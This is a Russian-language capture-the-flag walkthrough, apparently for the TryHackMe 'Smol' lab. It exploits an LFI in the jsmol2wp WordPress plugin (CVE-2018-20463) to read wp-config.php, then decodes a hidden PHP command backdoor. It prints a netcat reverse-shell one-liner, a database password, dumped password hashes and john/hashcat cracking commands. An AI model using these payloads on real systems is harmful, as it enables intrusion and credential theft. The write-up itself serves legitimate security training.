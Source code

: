 
![](../attachment/Pasted image 20250225231859.png)
для доступа к сайту добавим target ip и domain в /etc/hosts

Изучив сайт мы видим что это wordpress и запускаем wpscan

![[../attachment/Pasted image 20250225232047.png]]

Из интересного видим jsmol2wp и находим CVE-2018-20463, которое дает нам LFI 
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-config.php

![[../attachment/Pasted image 20250225224202.png]]
Находим пароля и логин пользователя, заходим в wp-admin и видим приватный пост 

![[../attachment/Pasted image 20250225232310.png]]
Читаем  исходный код с помощью найденной LFI и находим упомянутый backdoor
http://www.smol.thm/wp-content/plugins/jsmol2wp/php/jsmol.php?isform=true&call=getRawDataFromDatabase&query=php://filter/resource=../../../../wp-content/plugins/hello.php

![[../attachment/Pasted image 20250225232424.png]]
1. декодирует строку в base64
2. выполняет код с помощью eval
3. выполняет все что передано в cmd
Если мы расшифруем 

```
 if (isset($_GET["\143\155\x64"])) { system($_GET["\143\x6d\144"]); } 
 
 Расшифруем php
<?   
 if (isset($_GET["cmd"])) { system($_GET["cmd"]); }  ?> 
```

Попробуем rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.21.61.35 6653 >/tmp/f

http://www.smol.thm/wp-admin/?cmd=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.21.61.35%206653%20%3E%2Ftmp%2Ff

![[../attachment/Pasted image 20250225230421.png]]
python3 -c 'import pty;pty.spawn("/bin/bash");'

Проверим БД
1. подключаем mysql -u wpuser -p'kbLSF2Vop#lw3rjDZ629*Z%G' -D wordpress
2. Проверяем таблицы show tables;
3. Проверяем колонки в таблице show columns wp_users;
4. запрашиваем пользователей и пароли  select user_login, user_pass from wp_users;
admin      | $P$BH.CF15fzRj4li7nR19CHzZhPmhKdX. |
| wpuser     | $P$BfZjtJpXL9gBwzNjLMTnTvBVh2Z1/E. |
| think      | $P$BOb8/koi4nrmSPW85f5KzM5M/k2n0d/ |
| gege       | $P$B1UHruCd/9bGD.TtVZULlxFrTsb3PX1 |
| diego      | $P$BWFBcbXdzGrsjnbc54Dr3Erff4JPwv1 |
| xavi       | $P$BB4zz2JEnM2H3WE2RHs3q18.1pvcql1

Сохраняем пользователей и хеши в отдельный файл и запускаем john
![[../attachment/Pasted image 20250225233048.png]]

подключение по ssh не удалось, но можем подключиться из существующего шелла.
Получаем первый флаг пользователя
![[../attachment/Pasted image 20250225233246.png]]
![[../attachment/Pasted image 20250225233327.png]]

diego принадлежит группе internal
![[../attachment/Pasted image 20250225233539.png]]


![[../attachment/Pasted image 20250225233626.png]]

![[../attachment/Pasted image 20250225233717.png]]
![[../attachment/Pasted image 20250225233731.png]]

![[../attachment/Pasted image 20250225233854.png]]

![[../attachment/Pasted image 20250225233911.png]]


![[../attachment/Pasted image 20250225234609.png]]


gege@smol:~$ python3 -m http.server 8080

wget http://www.smol.thm:8080/wordpress.old.zip

zip2john wordpress.old.zip > arch_hash.txt
![[../attachment/Pasted image 20250225234758.png]]

hashcat -a 0 -m 17225  arch_hash.txt /usr/share/wordlists/rockyou.txt

![[../attachment/Pasted image 20250225235126.png]]


![[../attachment/Pasted image 20250225235228.png]]


![[../attachment/Pasted image 20250225235302.png]]

![[../attachment/Pasted image 20250225235745.png]]
забираем root флаг
![[../attachment/Pasted image 20250225235847.png]]
